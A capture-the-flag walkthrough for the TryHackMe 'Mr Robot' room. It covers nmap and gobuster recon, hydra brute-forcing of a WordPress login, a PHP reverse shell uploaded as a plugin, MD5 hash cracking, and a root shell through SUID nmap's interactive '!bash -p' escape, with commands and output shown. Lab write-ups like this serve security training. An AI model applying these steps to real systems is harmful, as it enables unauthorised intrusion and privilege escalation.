 # [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

First order of business, `nmap`

```
# Nmap 7.92 scan initiated Fri Sep 10 16:01:36 2021 as: nmap -vvv -p 80,443 -sCV -oA init 10.10.253.241
Nmap scan report for 10.10.253.241
Host is up, received syn-ack (0.42s latency).
Scanned at 2021-09-10 16:01:50 +07 for 65s

PORT    STATE SERVICE  REASON  VERSION
80/tcp  open  http     syn-ack Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
443/tcp open  ssl/http syn-ack Apache httpd
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 10 16:02:55 2021 -- 1 IP address (1 host up) scanned in 79.09 seconds
```

Looking at the web page (port 80 and 443 host the same site), it just seems like a fun interactive page without anything useful for now. Looking at `robots.txt`, we have 2 files to check out.

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The file `key-1-of-3.txt` is our 1st flag, and `fsocity.dic` is a word list we'll probably need later. With nothing else to go off of, we run `gobuster`.

```
/images               (Status: 403) [Size: 216]
/blog                 (Status: 403) [Size: 214]
/sitemap              (Status: 200) [Size: 0]
/video                (Status: 403) [Size: 215]
/wp-content           (Status: 200) [Size: 0]
/admin                (Status: 200) [Size: 1077]
/audio                (Status: 403) [Size: 215]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2671]
/css                  (Status: 403) [Size: 213]
/rss2                 (Status: 200) [Size: 809]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 403) [Size: 221]
/js                   (Status: 403) [Size: 212]
/rdf                  (Status: 200) [Size: 809]
/page1                (Status: 200) [Size: 1077]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/%20                  (Status: 200) [Size: 1077]
/wp-admin             (Status: 200) [Size: 2642]
/phpmyadmin           (Status: 403) [Size: 94]
/0000                 (Status: 200) [Size: 8210]
/xmlrpc               (Status: 405) [Size: 42]
```

Looks like we have wordpress. We can try logging in at `/wp-login`. Trying an invalid username gives us the error "Invalid username." so we can use this, along with a list of characters from the show "Mr. Robot", to fuzz for a username with `hydra`. With that, we should have a username. After getting the username, we can fuzz for the password using `hydra` and the wordlist `fsocity.dic` we previously found and get the password. With username and password, we can login.

Logged in, we find that we're able to upload plugins. To upload a reverse shell, grab a PHP reverse shell of your choice and add the following lines to it right after the opening `<?php`.

```php
/*
Plugin Name:  rev
*/
```

After that, `zip` it up and upload it at `/wp-admin/plugin-install.php?tab=upload`. Reverse shell uploaded, we set up a listener and activate the plugin to get a shell as "daemon".

Looking in `/home`, we have the user "robot" whose home we can view. There's our 2nd flag `key-2-of-3.txt` which we can't read yet and an MD5 password hash in `password.raw-md5` which we can crack. With the password cracked, we can `su robot`, become the user "robot" and grab the 2nd flag.

We then `find` SUID executables.

```sh
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We find that `nmap` has SUID set. Old `nmap` has `--intereactive` which can give us a shell so we run `nmap` with that, followed by `!bash -p` with `-p` to make use of the SUID bit and get a root shell.

```sh
robot@linux:~$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-4.3# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```
